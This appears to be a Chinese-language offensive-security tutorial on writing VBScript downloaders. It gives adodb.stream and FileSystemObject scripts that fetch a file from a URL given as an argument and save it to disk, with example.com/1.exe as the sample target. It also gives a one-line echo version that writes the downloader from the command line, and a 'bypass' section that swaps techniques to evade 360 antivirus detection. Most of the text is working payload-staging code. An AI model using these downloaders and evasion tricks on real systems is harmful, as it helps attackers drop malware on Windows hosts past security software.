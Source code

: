 VBScript是Visual Basic Script的简称，有时也被缩写为VBS。VBScript是微软开发的一种脚本语言，可以看作是VB语言的简化版，与Visual Basic for Applications的关系也非常密切。它具有原语言容易学习的特性。目前这种语言广泛应用于网页和ASP程序制作，同时还可以直接作为一个可执行程序。用于调试简单的VB语句非常方便。

在VBS中常用的文件流操作命令为Scripting.FileSystemObject和adodb.stream这两个，一般来说，会利用这两个方法来构造下载的vbs脚本。

利用adodb.stream下载文件

```vbscript
Set objXMLHTTP = CreateObject("Msxml2.ServerXMLHTTP.6.0")
Set Astream = CreateObject("adodb.stream")
objXMLHTTP.open "GET",wsh.arguments(0),0
objXMLHTTP.send
Astream.type=1
Astream.Mode=3
Astream.open
Astream.Write objXMLHTTP.responseBody //360会杀这个写入
Astream.SaveToFile wsh.arguments(1),2

// 执行
cscript example.vbs http://example.com/1.exe 1.exe
```



代码较为简单，支持利用echo来进行写入

```
// 一句话写入版
echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open ^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> d.vbs
```

### bypass

经过测试360发现，应该是国内利用adodb.stream的人太多了，然后被360进行了重点标记。所以，我们选择尝试利用FileSystemObject来对文件进行写入。

代码如下：

```vbscript
Sub HTTPDownload( myURL, myPath )
    Dim i, objFile, objFSO, objHTTP, strFile, strMsg
    Const ForReading = 1, ForWriting = 2, ForAppending = 8
    Set objFSO = CreateObject( "Scripting.FileSystemObject" )
    strFile = objFSO.BuildPath( myPath, Mid( myURL, InStrRev( myURL, "/" ) + 1 ) )
    Set objFile = objFSO.OpenTextFile( strFile, ForWriting, True )
    Set objHTTP = CreateObject( "WinHttp.WinHttpRequest.5.1" )
    objHTTP.Open "GET", myURL, False
    objHTTP.Send
    For i = 1 To LenB( objHTTP.ResponseBody )
        objFile.Write Chr( AscB( MidB( objHTTP.ResponseBody, i, 1 ) ) )
    Next
    objFile.Close( )
End Sub
HTTPDownload wsh.arguments(0), wsh.arguments(1)
```
